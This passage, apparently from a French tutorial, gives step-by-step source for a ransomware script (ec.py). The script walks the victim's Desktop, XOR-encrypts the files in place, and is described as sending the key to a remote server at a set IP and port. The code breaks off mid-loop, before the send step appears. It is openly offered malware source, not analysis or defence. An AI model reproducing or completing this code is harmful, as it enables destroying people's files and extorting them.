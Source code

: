 #### 3. Installation des modules nécessaires

Installez les modules nécessaires : `socket`, `threading`, `queue`, et `random`. Ces modules sont inclus dans la bibliothèque standard de Python, donc aucune installation supplémentaire n'est nécessaire.

#### 4. Création du script de chiffrement (ec.py)

Ce script chiffre les fichiers et envoie la clé de chiffrement au serveur.

```python
import socket
import os
import threading
import queue
import random

# Fonction de chiffrement
def encrypt(key):
    while True:
        file = q.get()
        print(f'Encrypting {file}')
        try:
            key_index = 0
            max_key_index = len(key) - 1
            encrypted_data = ''
            
            with open(file, 'rb') as f:
                data = f.read()
            
            with open(file, 'w') as f:
                f.write('')
            
            for byte in data:
                xor_byte = byte ^ ord(key[key_index])
                with open(file, 'ab') as f:
                    f.write(xor_byte.to_bytes(1, 'little'))
                
                # Incrémenter l'index de la clé
                if key_index >= max_key_index:
                    key_index = 0
                else:
                    key_index += 1
            
            print(f'{file} successfully encrypted')
        except:
            print(f'Failed to encrypt file :(')
        q.task_done()

# Informations de socket
IP_ADDRESS = '192.168.1.85'
PORT = 5678

# Informations sur le chiffrement
ENCRYPTION_LEVEL = 512 // 8  # 512 bit encryption = 64 bytes
key_char_pool = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ<>?,./[]{}|'
key_char_pool_len = len(key_char_pool)

# Préparer les fichiers à crypter
print("Preparing files...")
desktop_path = os.environ['USERPROFILE'] + '\\Desktop'
files = os.listdir(desktop_path)
abs_files = []
for f in files:
    if os.path.isfile(f'{desktop_path}\\{f}') and f != __file__[:-2] + 'exe':
```